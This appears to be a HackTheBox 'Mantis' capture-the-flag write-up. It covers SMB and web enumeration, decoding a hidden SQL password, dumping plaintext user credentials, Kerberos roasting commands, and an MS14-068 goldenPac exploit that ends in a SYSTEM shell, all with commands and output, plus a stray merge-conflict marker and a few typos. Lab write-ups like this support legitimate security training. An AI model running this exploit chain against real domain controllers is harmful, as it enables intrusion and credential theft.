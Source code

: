 <<<<<<< HEAD
s**Skills Required**
=======
**Skills Required**
● Intermediate/advanced knowledge of
Windows Server
● Knowledge of domain controllers
**Skills Learned**
● Enumerating SQL Server Express
databases
● Exploiting domain controllers and
Kerberos

port 88 (jkerberos)
port 445 (smb)
port 135 (ldap)

Utilizing port 445(smb), I utilize crackmapexec to collect additional information about the victim's machines.
``` 
❯ crackmapexec smb 10.10.10.52

SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
```

Crackmapexec provided me some information , such as the domain name, which I then saved in my hosts file.

Next I attempted to use smbmap to list the shared drivers. However, I encountered an  "Authentication error ". This indicates that I need credentials to access the shared drivers.

I began by enumerating the http ports on the website
``` bash
10.10.10.52:1337 # The typical IIS7 image
# enumerate with wfuzz or gobuster
gobuster dir -u http://10.10.10.52:1337/ -w /usr/share/seclist.... --add-slash -x php,html,txt

# Waiting for the gobuster scan I enumerate another port
10.10.10.52:8080 # Some blog and panel login -> Nothing interesant

```

After gobuster finished the scan, the tool discovered two directories: "orchard" and "secure_notes"
When I checked the  "secure_notes" directory, I found a .txt file containing some instructions. The file's name appeared to be a string encoded in base64.
``` bash
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

After decoding the string, I obtained a hexadecimal string. To reverse it, I used the "xxd" tool

``` bash
❯ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d | xxd -ps -r; echo
m$$ql_S@_P@ssW0rd!
```

I obtained credential and information from the note, Port 1433 is associated with the Microsoft SQL Server service , and I can attempt to connect to it using these credentials.

```
blog_Orchard_Users_UserPartRecord
2	admin		admin	AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==	Hashed
15	James	james@htb.local	james	J@m3s_P@ssW0rd!	Plaintext

	james J@m3s_P@ssW0rd!
```

I obtain credentials and then verify them using crackmapexec
``` 
❯ crackmapexec smb 10.10.10.52 -u 'james' -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

These credentials are valid, I am using them to enumerate domain users with rpcclient
``` 
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "enumdomgroups"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "querygroupmem 0x200"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "queryuser 0x1f4"
```

When I receive a username, I always check for "ASREProast Attack" and "kerberoasting attack"
``` bash
GetNPUsers htb.local/ -no-pass -usersfile users -> ASREProast attacl
GetUserSPNs htb.local/james@10.10.10.52 -> kerberoasting attack
```

As the user james I can't do anything for the moment

I'm going to gather information and potential attack vectors with bloodhound
``` bash
bloodhound-python -c ALL -ns 10.10.10.52 -d htb.local -u 'james' -p 'J@m3s----'
neo4j console
bloodhound
```

The Bloodhound tool didn't provide me with any interesting results.
I need search for more information. I'm using the repository "PayloadsAllTheThings/Methodology and Resources/Active Directory Attack.md(ms14-068)" https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#from-cve-to-system-shell-on-dc
``` bash
goldenPac.py htb.local/james@10.10.10.52 #this give me another domian, I save it in my hosts file (mantis and mantis.htb.local)

❯ goldenPac.py htb.local/james@mantis
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file HrJEEonA.exe
[*] Opening SVCManager on mantis.....
[*] Creating service oCvV on mantis.....
[*] Starting service oCvV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

I gained acces as "nt authority\system" simpy by exploiting the MS14-068 vulnerability with goldenPac tool
	User flag 5abd3b98a6326562c93825ac30d63da1
root flag cdc2ac1467172cda8f8b6fbdf008300c




